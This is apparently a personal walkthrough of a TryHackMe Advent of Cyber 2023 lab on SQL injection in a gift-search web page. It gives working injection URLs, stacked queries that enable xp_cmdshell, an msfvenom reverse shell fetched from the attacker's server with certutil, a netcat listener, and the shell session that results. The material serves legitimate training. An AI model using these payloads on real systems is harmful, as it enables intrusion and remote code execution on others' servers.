

# AoC 2023 - Day 10

> `SQL injection` Inject the Halls with EXEC Queries

## Learning Objectives
> - Learn to understand and identify SQL injection vulnerabilities
> - Exploit stacked queries to turn SQL injection into remote code execution
> - Help Elf McRed restore the Best Festival website and save its reputation!

## Steps

I'm tasked with attacking a Windows computer vulnerable to SQL-injection.

```bash
└─$ export box=10.10.221.121
└─$ firefox $box
```

There is a website hosted at the box.


### SQL Injection

Using this search page with url-parameters I can try sql-injections.



Adding a `'` to the end of the url gives an error output.

```bash
http://10.10.221.121/giftresults.php?age=child&interests=toys&budget=40%27
```

```
Database query error: Array ( [0] => Array ( [0] => 42000 [SQLSTATE] => 42000 [1] => 105 [code] => 105 [2] => [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Unclosed quotation mark after the character string '40''. [message] => [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Unclosed quotation mark after the character string '40''. ) [1] => Array ( [0] => 42000 [SQLSTATE] => 42000 [1] => 102 [code] => 102 [2] => [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Incorrect syntax near '40''. [message] => [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Incorrect syntax near '40''. ) ) 
```

To get the first flag I inject `' 1=1 --`. The flag is at the bottom of the results list.

```bash
http://10.10.221.121/giftresults.php?age=child&interests=toys&budget=%27%20OR%201%3D1%20--
```

### Uploading a Reverse Shell

#### Creating the shell
```bash
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.214.49 -f exe -o reverse.exe
```

#### Hosting the executable
```bash
└─$ python3 -m http.server 8000
```

#### Navigating using the website:
```
http://10.10.221.121/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
http://10.10.221.121/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://{my_ip}:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --
```

#### Waiting for the connection
```bash
└─$ nc -lnvp 4444
```

#### Making the machine run reverse shell
```bash
http://10.10.221.121/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --
```

Shell is now active.

```bash
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.8.214.49] from (UNKNOWN) [10.10.221.121] 49706
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd ..
cd ..

C:\Windows>cd ..
cd ..

C:\>cd Users
cd Users

C:\Users>dir /s *note*

 Directory of C:\Users\Administrator\Desktop

10/24/2023  12:03 AM               651 Note.txt
               1 File(s)            651 bytes

C:\Users\Administrator\Desktop>type Note.txt
type Note.txt
====================
Hey h4ck3r0192,

I recieved your Bitcoin payment, thanks again for a speedy transaction.

After you gain access to the server, you can deface the website by running the deface_website.bat script in C:\Users\Administrator\Desktop. Feel free to dump the database and steal whatever you want.

If you need to revert the changes back to the original site for any reason, just run restore_website.bat from the same directory.

Also, I shouldn't need to mention this, but PLEASE DELETE this Note.txt file after defacing the website! Do NOT let this hack tie back to me.

-Gr33dstr

THM{REDACTED}
```

#### Restoring the Website

```bash
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\Administrator\Desktop

11/02/2023  08:48 PM    <DIR>          .
11/02/2023  08:48 PM    <DIR>          ..
10/24/2023  01:28 AM    <DIR>          1
11/02/2023  08:48 PM    <DIR>          backups
11/02/2023  08:05 PM               339 deface_website.bat
10/24/2023  12:03 AM               651 Note.txt
11/02/2023  08:05 PM               388 restore_website.bat
               3 File(s)          1,378 bytes
               4 Dir(s)  10,492,379,136 bytes free

C:\Users\Administrator\Desktop>restore_website.bat
restore_website.bat
Removing all files and folders from C:\inetpub\wwwroot...
Website restoration completed. Please refresh the home (/index.php) page to see the changes and obtain your flag!

C:\Users\Administrator\Desktop>
```

## Question 1

> Manually navigate the defaced website to find the vulnerable search form. What is the first webpage you come across that contains the gift-finding feature?

URL to the page.

## Question 2

> Analyze the SQL error message that is returned. What ODBC Driver is being used in the back end of the website?

In plain text in the return value.

## Question 3

> Inject the 1=1 condition into the Gift Search form. What is the last result returned in the database?

```bash
http://10.10.221.121/giftresults.php?age=child&interests=toys&budget=%27%20OR%201%3D1%20--
```

## Question 4

> What flag is in the note file Gr33dstr left behind on the system?

Found in the `Note.txt`.

## Question 5

> What is the flag you receive on the homepage after restoring the website?

Found at the main page after running `restore_website.bat`.